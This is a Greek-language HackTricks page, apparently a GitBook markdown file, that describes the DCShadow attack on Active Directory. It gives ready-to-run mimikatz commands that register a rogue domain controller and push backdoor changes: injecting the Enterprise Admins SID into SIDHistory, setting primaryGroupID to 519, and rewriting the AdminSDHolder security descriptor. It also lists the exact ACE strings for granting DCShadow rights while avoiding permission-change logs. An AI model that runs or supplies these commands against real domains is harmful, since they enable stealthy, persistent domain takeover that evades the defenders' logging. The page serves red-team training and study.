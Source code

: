 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Καταχωρεί έναν **νέο Domain Controller** στο AD και τον χρησιμοποιεί για να **σπρώξει χαρακτηριστικά** (SIDHistory, SPNs...) σε καθορισμένα αντικείμενα **χωρίς** να αφήνει κανένα **καταγραφή** σχετικά με τις **τροποποιήσεις**. Χρειάζεστε δικαιώματα **DA** και να είστε μέσα στο **root domain**.\
Σημειώστε ότι αν χρησιμοποιήσετε λανθασμένα δεδομένα, θα εμφανιστούν αρκετά άσχημες καταγραφές.

Για να εκτελέσετε την επίθεση χρειάζεστε 2 στιγμιότυπα mimikatz. Ένα από αυτά θα ξεκινήσει τους RPC servers με δικαιώματα SYSTEM (πρέπει να υποδείξετε εδώ τις αλλαγές που θέλετε να εκτελέσετε), και το άλλο στιγμιότυπο θα χρησιμοποιηθεί για να σπρώξει τις τιμές:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Απαιτεί DA ή παρόμοιο" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Σημειώστε ότι **`elevate::token`** δεν θα λειτουργήσει σε `mimikatz1` συνεδρία καθώς αυτό ανέβασε τα δικαιώματα του νήματος, αλλά πρέπει να ανεβάσουμε το **δικαίωμα της διαδικασίας**.\
Μπορείτε επίσης να επιλέξετε και ένα "LDAP" αντικείμενο: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Μπορείτε να σπρώξετε τις αλλαγές από έναν DA ή από έναν χρήστη με αυτές τις ελάχιστες άδειες:

* Στο **αντικείμενο τομέα**:
* _DS-Install-Replica_ (Προσθήκη/Αφαίρεση Αντιγράφου στο Τομέα)
* _DS-Replication-Manage-Topology_ (Διαχείριση Τοπολογίας Αναπαραγωγής)
* _DS-Replication-Synchronize_ (Συγχρονισμός Αναπαραγωγής)
* Το **αντικείμενο Τοποθεσιών** (και τα παιδιά του) στο **δοχείο Διαμόρφωσης**:
* _CreateChild and DeleteChild_
* Το αντικείμενο του **υπολογιστή που είναι καταχωρισμένος ως DC**:
* _WriteProperty_ (Όχι Γράψιμο)
* Το **στόχο αντικείμενο**:
* _WriteProperty_ (Όχι Γράψιμο)

Μπορείτε να χρησιμοποιήσετε [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) για να δώσετε αυτά τα δικαιώματα σε έναν μη προνομιούχο χρήστη (σημειώστε ότι αυτό θα αφήσει κάποια αρχεία καταγραφής). Αυτό είναι πολύ πιο περιοριστικό από το να έχετε δικαιώματα DA.\
Για παράδειγμα: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Αυτό σημαίνει ότι το όνομα χρήστη _**student1**_ όταν συνδεθεί στη μηχανή _**mcorp-student1**_ έχει άδειες DCShadow πάνω στο αντικείμενο _**root1user**_.

## Χρήση του DCShadow για τη δημιουργία πισωπόρτων

{% code title="Set Enterprise Admins in SIDHistory to a user" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Αλλαγή PrimaryGroupID (βάλε τον χρήστη ως μέλος των Domain Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Τροποποίηση ntSecurityDescriptor του AdminSDHolder (δώστε Πλήρη Έλεγχο σε έναν χρήστη)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Δώστε δικαιώματα DCShadow χρησιμοποιώντας DCShadow (χωρίς τροποποιημένα αρχεία καταγραφής δικαιωμάτων)

Πρέπει να προσθέσουμε τα παρακάτω ACEs με το SID του χρήστη μας στο τέλος:

* Στο αντικείμενο τομέα:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Στο αντικείμενο υπολογιστή του επιτιθέμενου: `(A;;WP;;;UserSID)`
* Στο αντικείμενο του στόχου χρήστη: `(A;;WP;;;UserSID)`
* Στο αντικείμενο Sites στο δοχείο Configuration: `(A;CI;CCDC;;;UserSID)`

Για να αποκτήσετε το τρέχον ACE ενός αντικειμένου: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Σημειώστε ότι σε αυτή την περίπτωση πρέπει να κάνετε **πολλές αλλαγές,** όχι μόνο μία. Έτσι, στη **συνεδρία mimikatz1** (RPC server) χρησιμοποιήστε την παράμετρο **`/stack` με κάθε αλλαγή** που θέλετε να κάνετε. Με αυτόν τον τρόπο, θα χρειαστεί να **`/push`** μόνο μία φορά για να εκτελέσετε όλες τις συσσωρευμένες αλλαγές στον ρουγ server.

[**Περισσότερες πληροφορίες σχετικά με το DCShadow στο ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

